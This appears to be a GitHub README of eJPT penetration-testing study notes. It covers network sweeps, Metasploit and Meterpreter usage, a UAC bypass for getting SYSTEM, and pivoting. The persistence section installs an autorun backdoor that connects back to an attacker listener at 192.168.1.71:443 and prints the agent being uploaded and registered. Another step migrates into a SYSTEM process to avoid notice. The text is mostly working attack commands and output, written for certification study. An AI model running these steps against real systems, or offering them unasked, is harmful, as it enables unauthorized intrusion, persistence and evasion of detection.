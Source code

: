 # eJPT
Some helps to pass eJPT

# Footprinting & Scanning

## Ping Sweep
You can scan all network with nmap, -sn to disable port scan
```
root@kali:~# nmap -sn -n 10.142.111.0/24
```
but you can scanning entire network with fping
```
root@kali:~# fping -a -g 10.142.111.0/24 2> /dev/null
```

# Metasploit
Start metasploit with

```
$ msfconsole
```
# Meterpreter
## Privileges Escalation
On windows machine
```
meterpreter> getsystem
```
if doesn't work, probably windows has UserControlAccess enabled,so:
```
meterpreter> run post/windows/gather/win_privs
```
look if is true, and then
```
meterpreter> background
msf exploit(handler)> search uac
```
```
msf exploit(handler)> use exploit/windows/local/bypassuac
msf exploit(handler)> sessions
msf exploit(handler)> set SESSION <n>
msf exploit(handler)> exploit
meterpreter> getsystem
```
## Persistence
```
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location in target host to write payload to, if none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i   The interval in seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
```
We will configure our persistent Meterpreter session to wait until a user logs on to the remote system and try to connect back to our listener every 5 seconds at IP address 192.168.1.71 on port 443.
```
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.71
[*] Creating a persistent agent: LHOST=192.168.1.71 LPORT=443 (interval=5 onboot=true)
[*] Persistent agent script is 613976 bytes long
[*] Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
[*] Agent executed with PID 492
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter >
```
To verify that it works, we reboot the remote system and set up our payload handler.
```
meterpreter > reboot
Rebooting...
meterpreter > exit

[*] Meterpreter session 3 closed.  Reason: User exit
msf exploit(ms08_067_netapi) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.71
LHOST => 192.168.1.71
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.71:443
[*] Starting the payload handler...
```
## Migrate PID to another PID to look less sus
```
meterpreter> getpid
meterpreter> ps -U SYSTEM //process with system privilege, choose one
meterpreter> migrate PID
```
# PIVOTING
When we get access into a machine, we can check with ifconfig if there is another network which we couldn't access.
So let add the route to this network in msfconsole.
```
meterpreter> run autoroute -h
```
autoroute allow us to add a route to the network.
```
route add 192.69.228.0 255.255.255.0 1
```
for adding manually a route on msfconsole:

add //the command

subnet //subnet to connect

netmask //netmask of the subned

sid //meterpter session id

